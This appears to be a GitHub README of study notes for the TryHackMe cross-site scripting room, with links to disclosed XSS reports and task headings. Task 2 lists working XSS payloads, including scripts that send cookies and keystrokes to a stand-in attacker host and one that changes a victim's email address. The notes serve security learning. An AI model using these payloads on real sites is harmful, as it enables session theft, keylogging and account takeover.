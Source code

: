 [TryHackMe | Cross-site Scripting](https://tryhackme.com/room/xssgi)

# TryHackMe-Cross-site-Scripting
`Cross-site Scripting - Learn how to detect and exploit XSS vulnerabilities, giving you control of other visitor's browsers.`

## Task 1 Room Brief
[Shopify disclosed on HackerOne: Stored xss](https://hackerone.com/reports/415484)

[Valve disclosed on HackerOne: XSS in steam react chat client](https://hackerone.com/reports/409850)

[HackerOne disclosed on HackerOne: IE only: stored Cross-Site...](https://hackerone.com/reports/449351)

[Infogram disclosed on HackerOne: Multiple xss on infogram templates](https://hackerone.com/reports/283825)

## Task 2 XSS Payloads
**Proof Of Concept:**
`<script>alert('XSS');</script>`

**Session Stealing:**
`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`

**Key Logger:**
`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

**Business Logic:**
`<script>user.changeEmail('attacker@hacker.thm');</script>`

## Task 3 Reflected XSS
![image](https://user-images.githubusercontent.com/58542375/175781513-4585dbaf-2d21-4dbe-a9d2-470f0a1d6427.png)

## Task 4 Stored XSS
![image](https://user-images.githubusercontent.com/58542375/175781652-9bdf6957-5494-4967-afac-e92f20929ce6.png)

## Task 5 DOM Based XSS
![image](https://user-images.githubusercontent.com/58542375/175781988-434cd907-79b7-4fb7-89e8-6dd4edcd35ae.png)

[What is the Document Object Model?](https://www.w3.org/TR/REC-DOM-Level-1/introduction.html)

## Task 6 Blind XSS
[XSS Hunter](https://xsshunter.com/)

## Task 7 Perfecting your payload

## Task 8 Practical Example (Blind XSS)
